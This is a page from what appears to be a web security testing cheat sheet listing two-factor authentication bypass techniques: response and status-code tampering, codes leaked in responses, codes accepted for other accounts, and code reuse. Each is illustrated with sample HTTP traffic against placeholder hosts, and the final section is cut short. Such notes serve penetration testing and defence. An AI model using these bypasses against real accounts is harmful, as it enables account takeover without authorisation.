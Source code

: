 ```yaml
---
title: "Bypass"
draft: false
images: []
menu:
  docs:
    parent: "Web"
weight: 100
toc: true
---
```


## 2FA
### Response manipulation
```
HTTP/1.1 404 Not Found
...
{"code": false}
​
-------------------------------
​
Change it to {"code": true}
```
### Status code manipulation
```
HTTP/1.1 404 Not Found
...
{"code": false}
​```
--------------------------------
​
Change it to HTTP/1.1 200 OK
```
### 2FA Code in Response
Always check the response!
```
HTTP/1.1 200 OK
...
{"email": "victim@gmail.com", "code": "101010"}
```
### Missing 2FA Code integrity validation, code for any user account can be used
```
POST /2fa/
Host: vuln.com
...
email=attacker@gmail.com&code=382923
```
```
POST /2fa/
Host: vuln.com
...
email=victim@gmail.com&code=382923
```
### 2FA code reusability, same code can be reused.
Enter code 000000
```
POST /2fa/
Host: vuln.com
...
```